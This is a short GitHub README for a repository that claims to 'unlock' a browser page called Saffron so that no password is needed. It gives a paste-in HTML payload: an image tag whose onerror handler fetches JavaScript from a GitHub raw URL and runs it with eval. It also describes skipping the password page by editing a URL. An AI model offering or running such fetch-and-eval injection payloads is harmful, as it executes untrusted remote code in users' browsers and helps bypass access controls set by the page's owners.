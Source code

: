 # Saffron
## A simple browser page that could be pasted on any html script code like Lego Wedo 2.0
# THIS REPOSITORY UNLOCKS SAFFRON SO THAT YOU DO NOT NEED THE PASSWORD!
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/martial83-huue/Saffron-UNLOCKED/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```


Credits: Blobby-Boi (Creator of Blobbypass), SaffronA1, MartialMeteor82, ChatGPT-4o, BlackBoxAI, Canva, and GitHub.

Exploits the fact that there is no real encryption or protection of the index.html (Saffron's search dashboard) - main.html (password page) acts as just a doorway to index.html but __is easily skipped__ by changing URL in main.js from main.html to index.html - results in easy cracking and poor encryption
